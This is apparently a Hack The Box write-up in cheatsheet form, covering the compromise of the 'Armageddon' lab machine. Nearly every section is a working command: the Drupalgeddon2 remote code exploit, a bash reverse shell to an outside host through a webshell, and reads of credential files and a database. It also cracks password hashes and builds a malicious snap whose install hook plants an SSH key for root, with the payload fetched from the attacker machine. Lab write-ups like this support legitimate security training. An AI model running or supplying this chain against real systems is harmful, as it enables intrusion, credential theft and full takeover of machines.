 # HTB: Armageddon — Command Cheatsheet

## 📉 Box Info
- **Name:** Armageddon
- **IP:** 10.10.10.233
- **OS:** Linux (CentOS)
- **Difficulty:** Easy

---

## 🔍 Recon
```bash
nmap -p- --min-rate 10000 -oA scans/nmap-alltcp 10.10.10.233
nmap -p 22,80 -sCV -oA scans/nmap-tcpscripts 10.10.10.233
```

---

## 🏠 Web Enum (Drupal 7.56) [HTTP](HTTP.md)
```bash
curl http://10.10.10.233/robots.txt
curl http://10.10.10.233/CHANGELOG.txt | head
```

---

## ⚡ Exploitation - Drupalgeddon2 (RCE)
```bash
git clone https://github.com/dreadlocked/Drupalgeddon2.git
cd Drupalgeddon2
./drupalgeddon2.rb http://10.10.10.233
```

### 🤖 Webshell Reverse Shell
```bash
# Listener
nc -lnvp 443

# Exploit (via webshell)
curl -G --data-urlencode "c=bash -i >& /dev/tcp/10.10.14.7/443 0>&1" http://10.10.10.233/shell.php
```

---

## 🔍 Enumeration (as apache)
```bash
ls -l /home
cat /etc/passwd | grep bash
cat /var/www/html/sites/default/settings.php
```

### 📂 DB Access
```bash
mysql -u drupaluser -p'CQHEy@9M*m23gBVj' drupal
select * from users;
```

---

## 🔐 Crack Hash
```bash
echo "$S$DgL2gj..." > drupal.hash
hashcat -m 7900 drupal.hash /usr/share/wordlists/rockyou.txt
```

---

## 🔒 SSH as brucetherealadmin
```bash
ssh brucetherealadmin@10.10.10.233
# password: booboo
```

---

## ⬆️ Privilege Escalation via snap
### ☑ Check sudo perms
```bash
sudo -l
```

### 🚀 Build Malicious Snap (on your own VM)
```bash
snapcraft init
mkdir -p snap/hooks
cat > snap/hooks/install << EOF
#!/bin/bash
mkdir -p /root/.ssh
echo "<your-public-key>" > /root/.ssh/authorized_keys
EOF
chmod +x snap/hooks/install

cat > snap/snapcraft.yaml << EOF
name: armageddon
version: '0.1'
summary: Exploit Snap
confinement: devmode
grade: devel
parts:
  dummy:
    plugin: nil
EOF

snapcraft
```

### 🛫 Transfer + Install on Target
```bash
# Host
sudo python3 -m http.server 80

# Target (as brucetherealadmin)
curl http://10.10.14.7/armageddon_0.1_amd64.snap -o shell.snap
sudo snap install shell.snap --devmode --dangerous
```

---

## ✅ Root Access (via SSH key installed)
```bash
ssh -i ~/.ssh/id_ed25519 root@10.10.10.233
cat /root/root.txt
```

---

## 📋 Notes & References
- Drupal RCE: [Drupalgeddon2](https://github.com/dreadlocked/Drupalgeddon2)
- Snap Exploitation: GTFOBins + Custom install hook
- DB Creds from: `/var/www/html/sites/default/settings.php`
